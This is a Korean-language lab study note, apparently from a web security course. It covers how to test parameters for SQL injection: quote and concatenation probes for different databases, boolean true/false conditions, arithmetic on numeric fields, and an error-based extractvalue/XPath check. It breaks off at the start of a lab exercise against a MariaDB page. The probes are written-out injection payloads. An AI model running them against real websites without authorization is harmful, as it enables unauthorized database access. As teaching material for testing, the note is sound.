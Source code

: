 2. 잠재적 취약 여부 검증
- 문자열 타입인 경우
매개 변수의 값에 홑따옴표(')를 입력해 제출해보고 HTTP 응답 메시지를 살펴본다
```bash
idx=1234'

idx=12' '34      (MySQL 또는 MariaDB)
idx=12'%2B'34    (MSSQL)
idx=12'||'34     (Oracle)
```
%2B는 더하기 기호가 URL 인코딩 된것이다. "AND 1=1","AND 1=2"와 같은 논리 조건을 주입하여 취약한지 테스트한다 -> 등호(=) 기호는 URL 인코딩 시 %3D
```bash
idx=1234%27+AND+1%3D1--+     (참이 되는 조건 주입)  
idx=1234%27+AND+1%3D2--+     (거짓이 되는 조건 주입) 
```
- 숫자 타입인 경우
```bash
idx=4

# 산술 연산자 사용
idx=5-1
idx=3+1
idx=53-ASCII(1)     ---> ASCII(1)의 값은 49로 계산 결과는 4임

# 논리 조건 주입
idx=4+AND+1%3D1--+     (참이 되는 조건 주입)  
idx=4+AND+1%3D2--+     (거짓이 되는 조건 주입)    
```
- 오류 기반 공격 기법이 가능한지 파악
XPath 기법을 이용해 오류가 유발되는지 확인
```bash
idx=1234'+AND+extractvalue(rand(),concat(0x3a,'sqlitest'))--+

# 숫자 타입인 경우
idx=1234+AND+extractvalue(rand(),concat(0x3a,'sqlitest'))--+

# HTTP 응답 메시지 안에 다음과 같은 오류 발생 시 오류 기반의 SQL Injection에 취약하다
XPATH syntax error: ':sqlitest'
```

# 실습 문제 
## Exercise1
| 이 문제는 매개변수가 WHERE절에 사용된 문자열 타입의 컬럼과 연결됩니다. 

1. 홑따옴표를 추가해 에러메시지 확인
![](1.png)
MariaDB 서버 인것을 확인했다.
```bash
https://.../sqli_err_ex1.php?name=Faye%20Valentine%27

Employee Info

Error: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''Faye Valentine''' at line 1
```
